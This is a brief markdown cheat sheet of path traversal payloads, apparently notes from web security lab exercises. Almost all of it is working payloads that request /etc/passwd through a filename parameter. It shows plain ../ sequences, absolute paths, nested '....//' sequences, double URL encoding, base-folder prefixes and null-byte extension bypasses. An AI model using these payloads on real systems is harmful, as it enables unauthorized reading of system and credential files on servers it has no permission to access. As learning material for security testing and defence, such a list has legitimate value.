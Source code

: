 ### Path Traversal

**Simple Case "No defense mechanism" :**

in this case we intercept the request and change the location of requested resource 

`<img src="/loadImage?filename=218.png">`

`<img src="/loadImage?filename=../../../etc/passwd">`



**Use absolute pass directly**

`<img src="/loadImage?filename=/etc/passwd">`



**Use nested traversal sequences**

`....//`

`....\/`

`<img src="/loadImage?filename=....//....//....//etc/passwd">`



**Encode "/" twice**

..%25%32%66..%25%32%66..%25%32%66

`<img src="/loadImage?filename=..%25%32%66..%25%32%66..%25%32%66etc/passwd">`

*File path traversal, traversal sequences stripped with superfluous URL-decode*



**Base folder check**

`<img src="/loadImage?filename=/var/www/images/../../../etc/passwd">`



**Validate file extension**

`<img src="/loadImage?filename=/var/www/images/../../../etc/passwd%00.jpg">`

*don't forget dot (.) before extention*



























